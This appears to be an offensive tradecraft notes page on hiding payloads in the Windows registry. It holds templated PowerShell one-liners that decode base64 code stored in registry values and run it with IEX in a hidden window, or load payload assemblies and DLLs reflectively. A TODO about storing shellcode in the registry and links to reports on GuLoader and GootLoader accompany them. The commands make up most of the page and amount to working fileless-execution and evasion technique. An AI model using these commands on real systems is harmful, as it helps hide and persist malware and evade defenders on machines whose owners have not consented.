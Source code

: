 # Registry

TODO: Other ideas is to use registries to include shellcode and execute it.

https://blog.sonicwall.com/en-us/2022/06/guloader-a-fileless-shellcode-based-malware-in-action/

```
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -c "sleep 0; IEX([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String((Get-Item 'HKLM:SOFTWARE\<registry_key>').GetValue('<registry_value_name>'))))"
```

```powershell
powershell -Command " [Reflection.Assembly]::Load([System.Convert]::FromBase64String((Get-ItemProperty 'HKCU:\Software\Classes\<registry_key>').b64encAssembly)); [CMD_exec.Class1]::RunCMD()"

powershell IEX ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((get-itemproperty 'HKCU:\Software\Classes\<registry_key>').b64encPS)))

powershell -Command " [Reflection.Assembly]::Load(([System.IO.File]::ReadAllBytes('C:\path\to\payload.dll')); [CMD_exec.Class1]::RunCMD();"

powershell -Command " [Reflection.Assembly]::LoadFile('C:\path\to\payload.dll'); [CMD_exec.Class1]::RunCMD();"

powershell IEX (Get-Content C:\path\to\payload.ps1 -Raw)
```

https://az4n6.blogspot.com/2018/06/malicious-powershell-in-registry.html

adding registry persistence by spliting the shellcode hexadecimal

https://thedfirreport.com/2024/02/26/seo-poisoning-to-domain-control-the-gootloader-saga-continues/

---
## References

### Tenouk

- [Tenouk: Windows Process & Threads - A Supplementary Note](https://www.tenouk.com/chijklsupp.html)

- [Tenouk: Registry - Part 1](https://www.tenouk.com/ModuleO.html)

- [Tenouk: Registry - Part 2](https://www.tenouk.com/ModuleO1.html)

- [Tenouk: Registry - Part 4](https://www.tenouk.com/ModuleP1.html)

- [Tenouk: Windows Registry - A Supplementary Note](https://www.tenouk.com/copregsupp.html)